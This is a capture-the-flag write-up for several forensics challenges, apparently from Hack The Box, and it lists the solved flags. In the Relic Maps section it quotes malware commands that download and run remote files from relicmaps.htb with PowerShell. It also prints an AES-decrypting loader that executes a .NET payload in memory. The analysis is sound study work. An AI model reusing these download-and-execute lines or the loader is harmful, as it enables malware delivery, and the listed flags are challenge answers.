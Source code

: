 # Forensics Challenges

## Plaintext Tleasure

As the title says - the flag is in plain text in capture.pcap - HTB{th3s3_4l13ns_st1ll_us3_HTTP}

## Alien Cradle

View cradle.ps1, `$f = 'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}'`
> HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}

## Extraterrestrial Persistence

Yet another base64 string.
> HTB{th3s3_4l13nS_4r3_s00000_b4s1c}

## Packet Cyclone

Just run the recommended tool ([chainsaw](https://github.com/WithSecureLabs/chainsaw)) and answer questions based on its output.

## Relic Maps

Download relicmaps.one
I don't have OneNote installed so just ran `strings` on it and found this interesting piece (VBScript in HTML - I guess it was supposed to run when you view the file?):

```powershell
<snip>
ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/uploads/soft/topsecret-maps.one -OutFile $env:tmp\tsmap.one; Start-Process -Filepath $env:tmp\tsmap.one"
ExecuteCmdAsync "cmd /c powershell Invoke-WebRequest -Uri http://relicmaps.htb/get/DdAbds/window.bat -OutFile $env:tmp\system32.bat; Start-Process -Filepath $env:tmp\system32.bat"
<snip>
```

Download both files. Spent some time investigating topsecret-maps.one contents, extracted PNG with a map - but it turned out to be a red herring.
Next, concentrated on the obfuscated BAT file.
Obfuscation is pretty simple:
first, `set "eFlP=set "` ie `set` command becomes `eFlP`
then a long chain of `%eFlP%"ualBOGvshk=ws"` - `set SOMETHING=....` where `SOMETHING` is a random string and `....` is 4 characters.
Either use search & replace (manual, long process) or script it to deobfuscate the file.

This should produce the following result (some variables renamed for clarity):

```powershell
$Base64Str = "SEWD/RSJz4q <snip> ="

$BinaryStream = [System.Convert]::FromBase64String($Base64Str);
$AESDecryptor = New-Object System.Security.Cryptography.AesManaged;
$AESDecryptor.Mode = [System.Security.Cryptography.CipherMode]::CBC;
$AESDecryptor.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7;
$AESDecryptor.Key = [System.Convert]::FromBase64String('0xdfc6tTBkD+M0zxU7egGVErAsa/NtkVIHXeHDUiW20=');
$AESDecryptor.IV = [System.Convert]::FromBase64String('2hn/J717js1MwdbbqMn7Lw==');
$AESDecryptorObject = $AESDecryptor.CreateDecryptor();
$DecryptedBinaryStream = $AESDecryptorObject.TransformFinalBlock($BinaryStream, 0, $BinaryStream.Length);
$AESDecryptorObject.Dispose();
$AESDecryptor.Dispose();

$mNKMr = New-Object System.IO.MemoryStream(, $DecryptedBinaryStream);
$bTMLk = New-Object System.IO.MemoryStream;
$NVPbn = New-Object System.IO.Compression.GZipStream($mNKMr, [IO.Compression.CompressionMode]::Decompress);
$NVPbn.CopyTo($bTMLk);
$NVPbn.Dispose();
$mNKMr.Dispose();
$bTMLk.Dispose();
$DecryptedBinaryStream = $bTMLk.ToArray();
$gDBNO = [System.ReflectionAssembly]::Load($DecryptedBinaryStream);
$PtfdQ = $gDBNO.EntryPoint;
$PtfdQ.Invoke($null, (, [string[]] ('%*')))%
```

Then I modified unobfuscated PowerShell script to dump decrypted buffer contents to a file instead of running it:

```powershell
<snip>
$DecryptedBinaryStream = $bTMLk.ToArray();
Set-Content -Path output.file -AsByteStream -Value $EncryptedBinaryStream
```

This produced a .NET dll which I did not bother to reverse engineer since the flag is there in plain text (in UTF-16 encoding):
> HTB{0neN0Te?_iT'5_4_tr4P!}
